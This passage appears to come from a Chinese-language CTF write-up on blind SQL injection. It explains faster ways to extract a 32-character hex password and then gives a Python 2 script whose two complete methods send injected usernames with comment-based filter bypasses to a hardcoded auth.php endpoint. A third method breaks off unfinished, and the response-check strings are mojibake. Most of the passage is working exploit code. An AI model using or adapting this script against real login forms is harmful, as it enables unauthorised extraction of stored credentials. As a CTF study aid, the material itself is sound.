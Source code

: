 即通过循环遍历0-9a-f得到答案，但是这样最坏的情况需要遍历16次才能得知，这里给出两种优化方案

* 优化二分搜索法

`select password from admin where username = 'admin' and substring(password, index, 1) in ('0','1','2','3'...)`

即通过二分搜索自己预设的字母表

* 逐位法

`select password from admin where username = 'admin' and ascii(substring(password, index, 1) & 128 = 128`

即通过比对密码每一位的二进制bit

##### py
```
# -*- coding: utf-8 -*-
import requests

def method1():
    url = "http://101.200.145.44/web6/auth.php"
    strBox = '0123456789abcdef'
    password = []
    for index in range (1,33):
        print index,
        for i in strBox:
            username = "admin'/**/and/**/substring(password,"+str(index)+",1)='"+i
            data = {'username':username,'password':'admin'}
            r = requests.post(url,data=data)
            if r.text.find(u'ï»¿å¯ç éè') != -1:
                print i
                password.append(i)
                break
    print ''.join(password)

def method2():
    url = "http://101.200.145.44/web6/auth.php"
    strBox = "'0','1','2','3','4','5','6','7','8','9','a','b','c','d','e','f'"
    password = []
    for index in range (1,33):
        print index,':',
        startPos = 0
        endPos = len(strBox)//2
        while endPos - startPos >= 3 :
            username = "admin'/**/and/**/substring(password,"+str(index)+",1)/**/in/**/("+strBox[startPos:endPos]+");'"
            data = {'username':username,'password':'admin'}
            r = requests.post(url,data=data)
            if r.text.find(u'ï»¿å¯ç éè') != -1:
                endPos = startPos + (endPos-startPos)//2
            else:
                tmp = endPos - startPos
                startPos = endPos + 1
                endPos = startPos + tmp

        print strBox[startPos+1]
        password.append(strBox[startPos+1])

    print ''.join(password)


def method3():
    url = "http://101.200.145.44/web6/auth.php"
##    strBox = "'0','1','2','3','4','5','6','7','8','9','a','b','c','d','e','f'"
    password = []
```
